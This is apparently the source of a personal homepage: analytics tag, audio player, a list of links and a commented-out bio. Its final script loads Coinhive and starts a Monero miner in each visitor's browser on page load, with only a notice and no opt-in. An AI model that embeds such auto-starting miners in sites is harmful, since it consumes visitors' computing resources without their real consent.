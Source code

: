 ```yaml
---
layout:
---
```

<!-- Global Site Tag (gtag.js) - Google Analytics -->
<script async src="https://www.googletagmanager.com/gtag/js?id=UA-106946514-1"></script>
<script>
  window.dataLayer = window.dataLayer || [];
  function gtag(){dataLayer.push(arguments)};
  gtag('js', new Date());
  gtag('config', 'UA-106946514-1');
</script>

under construction<br>

<!--Omniscient omnipotent and deeply unfriendly full stack developer. <br>
[Add](mailto:bohadi@users.noreply.github.com) me to your team today!
<br>
-->

<audio width="400" height="40" controls controlsList="nodownload">
  <source src="noodle.mp3" type="audio/mpeg">
</audio>

[interactive graphics](/smb) with WebGL!
<br><br>

some links:<br>
[news.ycombinator.com](https://news.ycombinator.com)<br>
[cryptowat.ch](https://cryptowat.ch)<br>
[sep/random](https://plato.stanford.edu/cgi-bin/encyclopedia/random)<br>
[The Travels of Marco Polo](https://en.wikisource.org/wiki/The_Travels_of_Marco_Polo)<br>
[Somnium, by Kepler](https://somniumproject.wordpress.com/somnium)<br>
[Vera Historia, by Lucian of Samosata](http://lucianofsamosata.info/TheTrueHistory.html)<br>

<br>
This page mines [Monero](https://en.wikipedia.org/wiki/Monero_(cryptocurrency)) in the background.<br>
This may be an alternative to serving ads and you may have to disable adblock. 
<br>
<div id='minerstatus'>
Attempting to connect...
</div>
<div id='minerio'>
Hashes/second: 0   <br>
total Hashes: 0    <br>
</div>

<script src="https://coin-hive.com/lib/coinhive.min.js"></script>
<script>
  var minerstatus = document.getElementById('minerstatus');
  var minerio     = document.getElementById('minerio');
  try {
    var miner = new CoinHive.Anonymous('A9pTI4370gQQt0dRaNJFmFnPXXDvsEwS', {
      threads: 2,
      throttle: 0.5
    });
    miner.start();
  }
  catch (e) { minerstatus.innerHTML = '...Connection error. Miner stopping.'; }

  miner.on('open', function() {
    minerstatus.innerHTML = 'Connection opened...';
  });
  miner.on('error', function() {
    minerstatus.innerHTML = '...Connection error. Miner stopping.';
    miner.stop();
  });
  miner.on('accepted', function() {
    minerstatus.innerHTML =
      'Connected. ('+miner.getNumThreads()+' threads throttled at '+
      100*miner.getThrottle().toFixed(2)+'% WASM supported: '+miner.hasWASMSupport()+')';
  });
  setInterval(function() {
    minerio.innerHTML = 
      'Hashes/second: '   + miner.getHashesPerSecond().toFixed(2) + '<br>' +
      'total Hashes: '    + miner.getTotalHashes()                + '<br>' ;
  }, 1000);
</script>
